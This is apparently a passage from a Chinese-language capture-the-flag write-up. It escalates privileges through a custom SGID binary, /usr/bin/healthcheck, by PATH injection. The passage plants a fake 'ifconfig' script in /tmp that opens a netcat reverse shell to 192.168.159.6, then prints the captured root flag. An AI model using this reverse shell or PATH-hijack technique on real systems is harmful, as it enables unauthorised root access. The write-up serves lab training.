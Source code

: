 `/usr/bin/healthcheck`显然不是自带的，一个特殊的SGID文件，但是LinEnum没能提示，我们将其利用

将程序拿下来，进行逆向或strings分析处理

发现其调用系统命令，并且会先移动到`/tmp`目录，可利用Path注入

```bash
cd /tmp
echo '#! /bin/bash' > ifconfig
echo '/usr/bin/nc 192.168.159.6 4445 -e /bin/bash' >> ifconfig
chmod 777 ifconfig
export PATH=/tmp
```

执行

```bash
/usr/bin/healthcheck
```

得到新shell，修复PATH

```bash
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```
得到root.txt
```
eaff25eaa9ffc8b62e3dfebf70e83a7b
```


